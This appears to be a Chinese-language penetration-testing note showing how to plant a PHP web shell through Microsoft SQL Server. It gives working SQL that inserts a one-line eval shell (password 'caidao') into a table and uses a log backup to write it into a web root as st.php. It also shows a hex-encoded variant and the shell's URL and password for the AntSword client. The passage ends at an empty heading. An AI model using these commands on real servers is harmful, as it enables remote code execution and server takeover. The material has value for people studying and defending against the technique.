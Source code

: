 #### 备份

```mssql
create database st;
use st;
create table cmd (a varchar(200));
backup database st to disk='c:\temp\st.bak' with init;
insert into cmd values('<?php @eval($_POST['+'"'+'caidao'+'"'+']); ?>');

backup log st to disk ='E:\phpstudy_pro\WWW\st.php';
```

![image-20240729105826482](https://image.201068.xyz/assets/MSSQL/image-20240729105826482.png)

#### 访问

http://192.168.70.21:81/st.php

![image-20240729111257404](https://image.201068.xyz/assets/MSSQL/image-20240729111257404.png)

#### 蚁剑链接

```
http://192.168.70.21:81/st.php
caidao
```

![image-20240729110125791](https://image.201068.xyz/assets/MSSQL/image-20240729110125791.png)

![image-20240729110215744](https://image.201068.xyz/assets/MSSQL/image-20240729110215744.png)

![image-20240729110244423](https://image.201068.xyz/assets/MSSQL/image-20240729110244423.png)

#### 16进制

```php
<?php @eval($_POST["caidao"]); ?>
3c3f70687020406576616c28245f504f53545b2263616964616f225d293b203f3e
```

![image-20240729143840230](https://image.201068.xyz/assets/MSSQL/image-20240729143840230.png)

```mssql
insert into cmd values('<?php @eval($_POST["caidao"]); ?>');
insert into cmd values('0x3c3f70687020406576616c28245f504f53545b2263616964616f225d293b203f3e');
```

#### 图片码

```mssql
create table cmd (a image);
```

##### 日志写入木马
